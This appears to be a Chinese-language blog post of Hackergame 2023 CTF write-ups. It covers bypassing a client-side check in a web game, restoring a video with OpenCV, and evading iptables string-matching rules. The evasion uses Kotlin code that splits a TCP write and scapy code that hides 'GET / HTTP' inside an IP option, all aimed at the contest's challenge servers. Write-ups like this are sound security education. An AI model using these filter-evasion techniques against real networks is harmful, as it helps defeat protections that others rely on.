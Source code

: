 ```yaml
---
title: 投机取巧向的 Hackergame 2023 Writeups
pubDate: 2023-11-04 17:39:32
description: "第一次完整参加 Hackergame！"
categories: [笔记, CTF]
---
```


![](./hackergame2023-wirteups/0-1.webp)

基于巧合（~~交友不慎~~），今年终于完整参加了一次 Hackergame。其实往年也有参加，不过当时还是高中，时间不太够，只是做下签到题草草了事。

[官方的 Writeups](https://github.com/USTC-Hackergame/hackergame2023-writeups) 其实已经比较完整了，这里写几题完成方法和官方不太相同（一般更简单）的 Writeups。点击题目标题可以跳转到题目和官方题解。

## [赛博井字棋](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/%E8%B5%9B%E5%8D%9A%E4%BA%95%E5%AD%97%E6%A3%8B)

通过观察方法 `setMove(x, y)` 发现判断棋盘非空的逻辑在本地：

```javascript
async function setMove(x, y) {
  if (board[x][y] != 0) { // 注意这里
    return;
  }
  if (frozen) {
    return;
  }
  let url = window.location.href; // 获取当前 URL
  let data = { x: x, y: y }; // 设置要发送的数据
  return fetch(url, {
    method: "POST", // 设置方法为 POST
    headers: {
      "Content-Type": "application/json", // 设置内容类型为 JSON
    },
    body: JSON.stringify(data), // 将数据转换为 JSON 格式
  }).catch(errorHandler);
}
```

在 Chrome 中，直接右键 JS 资源，复写这个文件并把判断代码删除即可。

![](./hackergame2023-wirteups/1-1.webp)

## [🪐 流式星球](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%F0%9F%AA%90%20%E6%B5%81%E5%BC%8F%E6%98%9F%E7%90%83)

我不是很懂为什么你们题目的代码都用 OpenCV 了，题解不是 OpenCV（

```python
import cv2
import numpy as np

def restore_video(bin_file, restored_video, frame_width, frame_height, frame_count):
    buffer = np.fromfile(bin_file, dtype=np.uint8)
    total_pixels = buffer.size // 3
    padding_needed = np.prod((frame_count, frame_height, frame_width, 3)) - buffer.size
    buffer = np.pad(buffer, (0, padding_needed), mode='constant')
    buffer = buffer.reshape((frame_count, frame_height, frame_width, 3))
    fourcc = cv2.VideoWriter_fourcc(*'XVID')
    out = cv2.VideoWriter(restored_video, fourcc, 60.0, (frame_width, frame_height))
    for i in range(frame_count):
        out.write(buffer[i])
    out.release()

if __name__ == "__main__":
    frame_width = 427
    frame_height = 759
    frame_count = 9999
    restore_video("video.bin", "restored_video.mp4", frame_width, frame_height, frame_count)
```

## [Komm, süsser Flagge](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/Komm%2C%20s%C3%BCsser%20Flagge)

### 我的 POST

通过观察规则 `-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset` 容易得到我们不能在数据包中包含 `POST` 这个字符串，很自然想到拆分成两个数据包。但是一开始使用 `nc` 等工具发现这并做不到，可能 `nc` 还是将他们放在了一个数据包里。这里用 Kotlin 进行简单实现：

```kotlin
fun main() {
    val data = "POST / HTTP/1.1\r\n" +
            "Cookie: GET / HTTP\r\n"+
            "Host: 202.38.93.11\r\n" +
            "Content-Length: 100\r\n\r\n"+
            "YOURTOKEN\r\n";
    Socket().use { socket ->
        socket.connect(InetSocketAddress(InetAddress.getByName("202.38.93.111"), 18080));
        Thread.sleep(1000);
        socket.getOutputStream().write(data.toByteArray(),0,3)
        Thread.sleep(1000);
        socket.getOutputStream().write(data.toByteArray(), 3, data.length - 3)
        socket.getInputStream().bufferedReader().lines().forEach {
            println(it)
        }
    }
}
```

### 我的 P

题都没看，直接试了一下，把上面的 `18080` 改成 `18081` 即可获取 flag。

### 我的 GET

通过观察规则：

```shell
-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
```

容易得到服务器只接受前 50 字节包含 `GET / HTTP` 的数据包。网上查了很多资料，一开始想到用 TFO (TCP Fast Open)，但是迫于我可怜的寄网知识，不是很懂。后来在研究 IP 数据包的 Header 的时候发现有一个区域叫 [Options](https://en.wikipedia.org/wiki/Internet_Protocol_version_4#Options)，似乎可以让我们塞一些东西，所以就有了以下代码：

```python
from scapy.all import *
from scapy.layers.inet import IP, TCP, IPOption

def tcp_test(ip, port, data):
    # 第一次握手，发送SYN包
    # 请求端口和初始序列号随机生成
    p1 = IP(dst=ip,
            options=[IPOption(b'\x88\x0E\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50')]) / TCP(dport=port, sport=RandShort(), seq=RandInt(), flags='S')
    ans = sr1(p1, verbose=True)
    print(ans)
    # 假定此刻对方已经发来了第二次握手包：ACK+SYN
    sport = ans[TCP].dport
    s_seq = ans[TCP].ack
    d_seq = ans[TCP].seq + 1
    # 第三次握手，发送ACK确认包，顺带把数据一起带上
    print(sr1(IP(dst=ip, options=[IPOption(b'\x88\x0E\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50')]) / TCP(dport=port, sport=sport, ack=d_seq, seq=s_seq, flags='A') / data, verbose=True))

if __name__ == '__main__':
    data = 'POST / HTTP/1.1\r\n'
    data += 'Host: 202.38.93.111\r\n'
    data += 'Content-Length: 100\r\n'
    data += 'Accept: text/html\r\n\r\n'
    data += 'YOURTOKEN\r\n'
    tcp_test("202.38.93.111", 18082, data)
```

其中 `\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50` 部分就是 `GET / HTTP`，前面几个字节是 `Copied`、`Option Class`、`Option Number`，我也不是很懂，随便找了个看起来能塞足够长内容的类型——`136/0x88 Stream ID`，然后就可以发包了。

但是，这时候，通过 Wireshark，你很可能发现你的包要不就是没发出去，要不就是服务器返回握手包之后直接被 RST，再次[查了一堆资料](https://stackoverflow.com/questions/9058052/unwanted-rst-tcp-packet-with-scapy)之后，可以发现是内核认为这个数据包有问题，帮我们自动发送了 RST。于是，这时候就该使用题目中提供的 OpenVPN 了。

![](./hackergame2023-wirteups/2-1.jpg)

---

其他题目的解法我都基本和官方一样，不再赘述。
